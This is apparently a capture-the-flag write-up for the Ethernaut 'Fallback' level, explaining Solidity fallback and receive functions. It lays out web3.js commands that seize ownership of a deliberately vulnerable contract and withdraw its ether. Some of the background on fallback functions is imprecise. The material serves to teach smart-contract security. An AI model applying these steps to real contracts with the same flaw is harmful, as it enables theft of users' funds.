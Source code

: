 First things first,

What is a fallback function?
In Solidity, a fallback function is an external function with neither a name, parameters, or return values.

Few notable properties of fallback function:

-> It is compulsory to mark it as external.
-> It should be marked as payable. If not, the contract will throw an exception if it receives ether without any data.
-> It is limited to 2300 gas if invoked by other functions.


The task:
![Fallback](https://user-images.githubusercontent.com/79459872/182846743-b0267e4b-9589-4968-9aa5-de4b7779f5a3.png)

1.Claim ownership of the contract.
2.Reduce its balance to 0.

Problem with contract:
Bad implementation of fall back functio i.e Changing contract ownership inside the fallback function.

Observe the condition seen in fallback function
 
 receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}

//
How to get ownership and winthdraw all the money out of the contract

 
Solution:

1.Your account address has to contribute to be mapped. 

await contract.contribute({value:3})

2.Trigger fallback function by sending transcation by using web3.js command.

await contract.sendTransaction({value:3})

Congrats!! u now own the contract.

3.Lastly to withdraw all the eth from the contract

await contract.withdraw()

------done------
